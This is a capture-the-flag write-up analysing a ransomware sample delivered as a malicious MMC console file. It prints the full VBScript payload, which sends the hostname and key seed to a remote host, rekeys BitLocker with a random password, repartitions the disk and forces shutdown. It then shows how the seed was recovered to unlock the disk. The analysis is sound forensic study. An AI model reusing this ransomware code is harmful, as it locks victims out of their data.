

**Writeup author: Oslolosen**

*My computer went to ransomland and all I got was this lousy pcap! Can you please help me unlock the FlagDisk.vhdx?*

In this task, we were given a pcap file and a disk image. The goal, as stated in the task, was to unlock the disk and extract the flag inside.

The most straightforward approach would be to attempt to open the disk directly, but I decided to start by examining the pcap file. I usually check for HTTP traffic, as it is often present in such challenges. Luckily, this was the case here. In the HTTP traffic, I found a `GET` request to the domain `wlndowsupdater.com` to download a zip file. At first glance, this looked like `windowsupdater.com`, but a closer inspection revealed that the `i` had been replaced by an `l`, a common obfuscation tactic.


Extracting the zip file from the pcap and unzipping it revealed a file named `gpedit.msc`. It was unusual to see a `Microsoft Saved Console` file, but examining its contents showed XML code that included URL-escaped text (omitted here for brevity).
```xml
<StringTable>
	<GUID>{71E5B33E-1064-11D2-808F-0000F875A9CE}</GUID>
	<Strings>
	<String ID="1" Refs="1">Favorites</String>
	<String ID="8" Refs="2">// Console Root
	// &#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;
	
	var scopeNamespace = external.Document.ScopeNamespace;
	var rootNode = scopeNamespace.GetRoot()
	var mainNode = scopeNamespace.GetChild(rootNode)
	var docNode = scopeNamespace.GetNext(mainNode)

	external.Document.ActiveView.ActiveScopeNode = docNode
	docObject = external.Document.ActiveView.ControlObject
	external.Document.ActiveView.ActiveScopeNode = mainNode

	var XML = docObject;
	XML.async = false
	var xsl = XML;

	xsl.loadXML(unescape("#URL ESCAPED TEXT#"))

	XML.transformNode(xsl)
	</String>
	<String ID="23" Refs="2">Document</String>
	<String ID="24" Refs="1">{2933BF90-7B36-11D2-B20E-00C04F983E60}</String>
	<String ID="38" Refs="2">Main</String>
	<String ID="39" Refs="1">res://apds.dll/redirect.html?target=javascript:eval(external.Document.ScopeNamespace.GetRoot().Name)</String>
	</Strings>

</StringTable>
```

Decoding the URL-escaped text in CyberChef revealed XML data containing malicious VBScript.
```vbscript
Function Stream_StringToBinary(Text)
  Const adTypeText = 2
  Const adTypeBinary = 1
  Dim BinaryStream
  Set BinaryStream = CreateObject("ADODB.Stream")
  BinaryStream.Type = adTypeText
  BinaryStream.CharSet = "us-ascii"
  BinaryStream.Open
  BinaryStream.WriteText Text
  BinaryStream.Position = 0
  BinaryStream.Type = adTypeBinary
 BinaryStream.Position = 0
 Stream_StringToBinary = BinaryStream.Read
 Set BinaryStream = Nothing
End Function

Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next

Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result

Set oXML = CreateObject("Msxml2.DOMDocument.6.0")
Set oNode = oXML.CreateElement("base64")
oNode.dataType = "bin.base64"

If InStr(1, caption, "2008", vbTextCompare) > 0 Or InStr(1, caption, "7", vbTextCompare) > 0 Then
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text
Else
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text
End If


retryCount = 3

Do While retryCount < 5
On Error Resume Next
	httpRequest.SetTimeouts 15000, 15000, 15000, 15000
    httpRequest.Send postData
	If httpRequest.status = 520 Then
		If InStr(1, httpRequest.getAllResponseHeaders, "cloudflare", vbTextCompare) > 0 Then
		Exit Do
		Else
		WScript.Sleep(3000)
		End If
	End If
retryCount = retryCount + 1
Loop


Set objWMIService = GetObject("winmgmts:\\.\root\CIMV2")
	Dim matchedDrives
	matchedDrives = "C:,E:"
	If Len(matchedDrives) > 0 Then
		matchedDrives = Left(matchedDrives, Len(matchedDrives) - 1)
		drives = Split(matchedDrives, ",")
		For i = 0 To UBound(drives)
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\System\CurrentControlSet\Control\Terminal Server"" /v fDenyTSConnections /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"" /v scforceoption /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseAdvancedStartup /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v EnableBDEWithNoTPM /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseTPM /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If 
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseTPMPIN /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseTPMKey /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseTPMKeyPIN /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v EnableNonTPM /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UsePartialEncryptionKey /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UsePIN /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34)  & Chr(39) & strRandom & Chr(39)  & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then: End If
		Next
	End If


Set objVolumes = objWMI.ExecQuery("SELECT * FROM Win32_EncryptableVolume where DriveLetter='" & Driveletters & "'")
	if objVolumes.count = 0 then
		Set colPartitions = objWMIService.ExecQuery("SELECT * FROM Win32_DiskPartition WHERE PrimaryPartition = TRUE and DiskIndex = 0")
				For Each objPartition In colPartitions
					strPartitionDeviceID = objPartition.DeviceID
					Set colLogicalDisks = objWMIService.ExecQuery("SELECT * FROM Win32_LogicalDiskToPartition WHERE Antecedent='Win32_DiskPartition.DeviceID=""" & strPartitionDeviceID & """'")
					For Each objDisk In colLogicalDisks
						Set colLogicalDisks2 = objWMIService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DeviceID='" & Replace(Mid(objDisk.Dependent, InStr(objDisk.Dependent, """") + 1), """", "") & "'")
						For Each objLogicalDisk In colLogicalDisks2
							strDriveLetter = objLogicalDisk.DeviceID
							set shrinkdisk = CreateObject("WScript.Shell").Exec("diskpart")
							shrinkdisk.StdIn.WriteLine("Select Volume " & strDriveLetter & vbCrLf)
							shrinkdisk.StdIn.WriteLine("shrink desired=100" & vbCrLf)
							shrinkdisk.StdIn.WriteLine("exit" & vbCrLf)
							WScript.Sleep(5000)
							If InStr(1, shrinkdisk.stdout.readall , "100", vbTextCompare) > 0 then
							set shrinkdisk = CreateObject("WScript.Shell").Exec("diskpart")
							shrinkdisk.StdIn.WriteLine("Select Volume " & strDriveLetter & vbCrLf)
							shrinkdisk.StdIn.WriteLine("create partition primary size=100" & vbCrLf)
							shrinkdisk.StdIn.WriteLine("format quick recommended override" & vbCrLf)
							WScript.Sleep(5000)
							shrinkdisk.StdIn.WriteLine("assign" & vbCrLf)
							shrinkdisk.StdIn.WriteLine("active" & vbCrLf)
							shrinkdisk.StdIn.WriteLine("exit" & vbCrLf)
							If InStr(1, shrinkdisk.stdout.readall , "100", vbTextCompare) > 0 then
								shrinkcomplate = "ok"
							Else
							End If
							Else
							Exit for
							End If
						Next
					Next
				if shrinkcomplate = "ok" then
				Exit For
				End if
				Next
				Set colLogicalDisksAfter = objWMIService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DriveType = 3")
						For Each objDiskAfter In colLogicalDisksAfter
							Dim driveExists1: driveExists1 = False
							For Each objDiskBefore In colLogicalDisksBefore
								If objDiskAfter.DeviceID = objDiskBefore.DeviceID Then
									driveExists1 = True
									Exit For
								End If
							Next
							If Not driveExists1 Then
								strDriveLetter = objDiskAfter.DeviceID
								Exit For
							End If
						Next
						If Len((CreateObject("WScript.Shell").Exec("bcdboot " & Driveletters & "\windows /s " & strDriveLetter)).stdout.readall) > 0 Then: End If
				set remove = CreateObject("WScript.Shell").Exec("diskpart")
				remove.StdIn.WriteLine("Select Volume " & strDriveLetter & vbCrLf)
				remove.StdIn.WriteLine("remove" & vbCrLf)
				remove.StdIn.WriteLine("exit" & vbCrLf)
				If Len(remove.stdout.readall) > 0 then
				For Each Os in GetObject("winmgmts:").ExecQuery("SELECT * FROM Win32_OperatingSystem"): os.Win32Shutdown(6): Next
				WScript.Sleep 6000000
				end if
				
	else
	end if
]]></ms:script>
</stylesheet>
```

The script included a section that generated a random string using a seed based on system properties, which was then sent via a `POST` request to `updatelog`, along with the hostname in base64 format.
```vbscript
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next

Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result

Set oXML = CreateObject("Msxml2.DOMDocument.6.0")
Set oNode = oXML.CreateElement("base64")
oNode.dataType = "bin.base64"

If InStr(1, caption, "2008", vbTextCompare) > 0 Or InStr(1, caption, "7", vbTextCompare) > 0 Then
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text
Else
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text
End If
```

The most interesting part of the code was a series of PowerShell commands that removed existing BitLocker instances, generated a new BitLocker password, and created a new BitLocker instance with that password:
```vbscript
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then: End If
			
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34)  & Chr(39) & strRandom & Chr(39)  & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then: End If

If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then: End 
```

The password for BitLocker was generated using the random string from the earlier code. We had everything needed to reconstruct the password except for the seed, which was sent in the `POST` request. By examining the pcap again, I found the `POST` request to `/updatelog`, which contained the hostname and seed encoded in base64.


**DECODED CONTENT**
```
upgrade=DESKTOP-59C1C3D	43906.83
```

Now as the seed is gather the password can be generated just as in the code and be encrypted with this powershell command.
```powershell
$password = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
Unlock-BitLocker -MountPoint "D:" -Password $password
```

With the seed gathered, I was able to regenerate the password using the same VBScript logic:
```vbscript
Dim strRandom characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog" 
Rnd(-1) 
Randomize seed 
strRandom = "" 
For i = 1 To 64 
	randomNum = Int(Len(characters) * Rnd(2)) 
	randomChar = Mid(characters, randomNum + 1, 1) 
	strRandom = strRandom & randomChar 
	Next 
WScript.Echo "Generated Random String: " & strRandom
```

Running this script produced the correct password:
```powershell
C:\Users\magnus\Desktop\shrunk>cscript.exe generator.vbs
Microsoft (R) Windows Script Host versjon 5.812 Copyright (C) Microsoft Corporation. Med enerett. 
Generated Random String: _tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb
```

I then used this password to unlock the BitLocker-encrypted volume:
```powershell
$password = ConvertTo-SecureString "_tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb" -AsPlainText -Force
Unlock-BitLocker -MountPoint "D:" -Password $password
```

The command successfully opened the disk, revealing a document containing the flag.

**FLAG: EPT{it_works_the_machine_works!}**
